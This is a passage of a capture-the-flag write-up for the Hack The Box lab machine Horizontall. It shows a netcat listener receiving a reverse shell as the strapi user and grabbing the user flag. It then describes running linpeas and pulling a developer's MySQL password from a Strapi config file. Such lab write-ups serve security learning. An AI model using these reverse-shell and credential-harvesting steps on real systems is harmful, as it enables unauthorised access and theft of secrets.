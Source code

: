 Which catches me a shell back in my listener:

```
┌──(ryan㉿kali)-[~/HTB/Horizontall]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.11.105] 44810
/bin/sh: 0: can't access tty; job control turned off
$ whoami
strapi
$ hostname
horizontall
```

And I can now grab the user.txt flag:

![horizontall_user.png](../assets/horizontall_assets/horizontall_user.png)

### Privilege Escalation

Loading linpeas on to the target to help enumerate a privilege escalation vector, I notice that a few more ports are open internally:

![horizontall_ports.png](../assets/horizontall_assets/horizontall_ports.png)

We also found in the linpeas results the user developer's password:

```
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
```
